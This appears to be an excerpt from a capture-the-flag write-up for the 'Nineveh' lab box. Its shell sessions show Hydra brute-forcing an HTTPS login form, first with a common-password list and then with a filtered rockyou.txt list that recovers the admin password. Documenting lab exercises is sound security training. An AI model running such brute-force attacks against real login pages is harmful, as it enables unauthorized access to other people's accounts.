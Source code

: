```sh
root@kali:~/nineveh# hydra -l admin -P SecLists/Passwords/10k_most_common.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-01-26 02:08:25
[DATA] max 64 tasks per 1 server, overall 64 tasks, 10000 login tries (l:1/p:0), ~10000 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443//db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect
[STATUS] 825.00 tries/min, 825 tries in 00:00h, 0 to do in 01:00h, 9175 active
[STATUS] 832.00 tries/min, 2496 tries in 00:00h, 0 to do in 03:00h, 7504 active
[STATUS] 839.00 tries/min, 5873 tries in 00:00h, 0 to do in 07:00h, 4127 active
[STATUS] 833.33 tries/min, 10000 tries in 00:00h, 0 to do in 12:00h, 1 active
1 of 1 target completed, 0 valid passwords found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 64 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2018-01-26 02:20:26
root@kali:~/nineveh#
```

```sh
root@kali:~/nineveh# grep -i ^password /usr/share/wordlists/rockyou.txt > pw
root@kali:~/nineveh# less pw
```

```sh
root@kali:~/nineveh# hydra -l admin -P pw 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-01-26 02:40:22
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 2930 login tries (l:1/p:0), ~2930 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443//db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 64 targets did not complete
Hydra (http://www.thc.org/thc-hydra) finished at 2018-01-26 02:40:43
root@kali:~/nineveh#
```

```
https://10.10.10.43/db/
```

